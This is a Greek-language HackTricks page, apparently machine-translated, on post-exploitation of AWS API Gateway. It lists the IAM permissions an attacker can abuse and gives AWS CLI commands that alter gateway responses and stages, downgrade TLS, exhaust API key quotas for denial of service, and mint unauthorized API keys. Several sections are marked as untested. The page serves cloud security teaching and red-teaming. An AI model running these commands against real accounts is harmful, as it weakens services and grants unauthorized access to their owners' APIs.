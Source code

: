 # AWS - Μετά την Εκμετάλλευση της API Gateway

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## API Gateway

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Πρόσβαση σε μη εκτεθειμένες APIs

Μπορείτε να δημιουργήσετε ένα σημείο πρόσβασης στο [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) με την υπηρεσία `com.amazonaws.us-east-1.execute-api`, να εκθέσετε το σημείο πρόσβασης σε ένα δίκτυο όπου έχετε πρόσβαση (ενδεχομένως μέσω μιας μηχανής EC2) και να αναθέσετε ένα ομάδα ασφαλείας που επιτρέπει όλες τις συνδέσεις.\
Στη συνέχεια, από τη μηχανή EC2 θα μπορείτε να έχετε πρόσβαση στο σημείο πρόσβασης και συνεπώς να καλέσετε την πύλη API που δεν είχε εκτεθεί προηγουμένως.

### Χρήση Σχεδίων DoS

Στην ενότητα **Απαρίθμησης** μπορείτε να δείτε πώς να **αποκτήσετε το σχέδιο χρήσης** των κλειδιών. Αν έχετε το κλειδί και είναι **περιορισμένο** σε X χρήσεις **ανά μήνα**, θα μπορούσατε απλά να το **χρησιμοποιήσετε και να προκαλέσετε ένα DoS**.

Το **Κλειδί API** χρειάζεται απλώς να **συμπεριληφθεί** μέσα σε ένα **κεφαλίδα HTTP** που ονομάζεται **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateGatewayResponse` και `apigateway:CreateDeployment` μπορεί να **τροποποιήσει μια υπάρχουσα Απάντηση Πύλης για να περιλαμβάνει προσαρμοσμένους κεφαλίδες ή πρότυπα απάντησης που διαρρέουν ευαίσθητες πληροφορίες ή εκτελούν κακόβουλα scripts**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανή Επίπτωση**: Διαρροή ευαίσθητων πληροφοριών, εκτέλεση κακόβουλων σεναρίων, ή μη εξουσιοδοτημένη πρόσβαση σε πόρους του API.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateStage` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει ένα υπάρχον στάδιο του API Gateway για να ανακατευθύνει την κίνηση σε διαφορετικό στάδιο ή να αλλάξει τις ρυθμίσεις κρυφής μνήμης για να κερδίσει μη εξουσιοδοτημένη πρόσβαση σε κρυφές δεδομένα**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανή Επίπτωση**: Μη εξουσιοδοτημένη πρόσβαση σε κρυφά δεδομένα, διαταραχή ή παρεμπόδιση της κίνησης του API.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:PutMethodResponse` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει την απάντηση μεθόδου ενός υπάρχοντος μεθόδου API Gateway REST για να περιλαμβάνει προσαρμοσμένους κεφαλίδες ή πρότυπα απάντησης που διαρρέουν ευαίσθητες πληροφορίες ή εκτελούν κακόβουλα scripts**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Πιθανή Επίπτωση**: Διαρροή ευαίσθητων πληροφοριών, εκτέλεση κακόβουλων σεναρίων ή μη εξουσιοδοτημένη πρόσβαση σε πόρους του API.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateRestApi` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει τις ρυθμίσεις του API Gateway REST API για να απενεργοποιήσει την καταγραφή καταγραφής ή να αλλάξει την ελάχιστη έκδοση TLS, με δυνητική απόδυναμωση της ασφάλειας του API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Πιθανή Επίπτωση**: Αποδυνάμωση της ασφάλειας του API, πιθανώς επιτρέποντας την μη εξουσιοδοτημένη πρόσβαση ή την αποκάλυψη ευαίσθητων πληροφοριών.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Ένας επιτιθέμενος με δικαιώματα `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` και `apigateway:CreateUsagePlanKey` μπορεί **να δημιουργήσει νέα κλειδιά API, να τα συσχετίσει με σχέδια χρήσης και στη συνέχεια να χρησιμοποιήσει αυτά τα κλειδιά για μη εξουσιοδοτημένη πρόσβαση σε APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Πιθανή Επίπτωση**: Μη εξουσιοδοτημένη πρόσβαση σε πόρους του API, παράκαμψη ελέγχων ασφαλείας.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
